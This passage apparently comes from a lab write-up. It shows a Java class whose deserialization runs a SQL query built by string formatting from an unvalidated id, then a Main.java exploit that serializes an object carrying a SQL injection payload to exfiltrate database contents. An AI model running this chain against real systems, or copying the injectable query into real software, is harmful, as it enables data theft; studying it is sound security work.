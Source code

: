 ```java

        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

3. We can notice that the `ProductTemplate` executes a query when it deserializes objects (`readObject`) without validating the `id`. We can deserialize arbitrary objects and exploit this SQL Injection in order to exfiltrate the database contents:

*./Main.java*
```java
import data.productcatalog.ProductTemplate;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("1' ORDER BY 9 LIMIT 1-- -");
        String serializedObject = serialize(originalObject);
        System.out.println("Serialized object: " + serializedObject);

        String obj = "<obj to deserialize>";
        ProductTemplate deserializedObject = deserialize(obj);
        System.out.println("Deserialized data id: " + deserializedObject.getId());
    }
```
